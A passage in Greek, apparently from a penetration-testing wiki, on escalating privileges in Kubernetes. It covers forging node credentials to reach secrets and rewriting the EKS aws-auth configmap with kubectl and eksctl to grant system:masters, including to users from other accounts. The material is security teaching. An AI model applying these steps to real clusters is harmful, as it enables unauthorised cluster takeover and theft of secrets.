 Ο τρόπος για να παρακάμψετε αυτό είναι απλώς να **δημιουργήσετε διαπιστευτήρια κόμβου για το όνομα του κόμβου όπου είναι τοποθετημένο το κοντέινερ με τα ενδιαφέροντα μυστικά** (αλλά απλώς ελέγξτε πώς να το κάνετε στο πρώτο άρθρο):
```bash
"/O=system:nodes/CN=system:node:gke-cluster19-default-pool-6c73b1-8cj1"
```
### AWS EKS aws-auth configmaps

Οι φορείς που μπορούν να τροποποιήσουν **`configmaps`** στο namespace kube-system σε EKS (πρέπει να είναι σε AWS) clusters μπορούν να αποκτήσουν προνόμια διαχειριστή του cluster αντικαθιστώντας το **aws-auth** configmap.\
Οι ρήτρες που απαιτούνται είναι **`update`** και **`patch`**, ή **`create`** αν το configmap δεν έχει δημιουργηθεί:

{% code overflow="wrap" %}
```bash
# Check if config map exists
get configmap aws-auth -n kube-system -o yaml

## Yaml example
apiVersion: v1
kind: ConfigMap
metadata:
name: aws-auth
namespace: kube-system
data:
mapRoles: |
- rolearn: arn:aws:iam::123456789098:role/SomeRoleTestName
username: system:node:{{EC2PrivateDNSName}}
groups:
- system:masters

# Create donfig map is doesn't exist
## Using kubectl and the previous yaml
kubectl apply -f /tmp/aws-auth.yaml
## Using eksctl
eksctl create iamidentitymapping --cluster Testing --region us-east-1 --arn arn:aws:iam::123456789098:role/SomeRoleTestName --group "system:masters" --no-duplicate-arns

# Modify it
kubectl edit -n kube-system configmap/aws-auth
## You can modify it to even give access to users from other accounts
data:
mapRoles: |
- rolearn: arn:aws:iam::123456789098:role/SomeRoleTestName
username: system:node:{{EC2PrivateDNSName}}
groups:
- system:masters
mapUsers: |
- userarn: arn:aws:iam::098765432123:user/SomeUserTestName
username: admin
groups:
- system:masters
```
{% endcode %}
